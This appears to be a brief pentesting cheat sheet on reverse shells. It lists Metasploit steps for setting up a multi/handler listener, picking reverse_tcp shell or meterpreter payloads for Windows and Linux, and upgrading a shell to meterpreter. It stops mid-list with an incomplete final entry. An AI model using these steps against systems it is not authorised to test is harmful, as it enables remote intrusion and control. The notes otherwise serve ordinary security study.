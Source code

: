 # Reverse Shell

## Multi Handler

* Start the PostgreSQL service `service postgresql start`.
* Start the metasploit console `msfconsole`.
* `use exploit/multi/handler`.

## Setting Up a listener in multi handler

* `set lhost 192.168.1.10`.
* `set lport 4444`.
* Then we need to specify the payload,
  * netcat shell \([https://netsec.ws/?p=292](https://netsec.ws/?p=292)\)
    * windows listener `set payload windows/shell/reverse_tcp`
    * linux listener `set payload linux/x86/shell/reverse_tcp`
  * meterpreter shell
    * windows listener `payload windows/meterpreter/reverse_tcp`
    * linux listener payload linux

## Upgrade Shell to meterpreter shell

* You need to have a metasploit listener for netcat.
* You need to create a new session. 
* `use post/multi/manage/shell_to_meterpreter`
* d



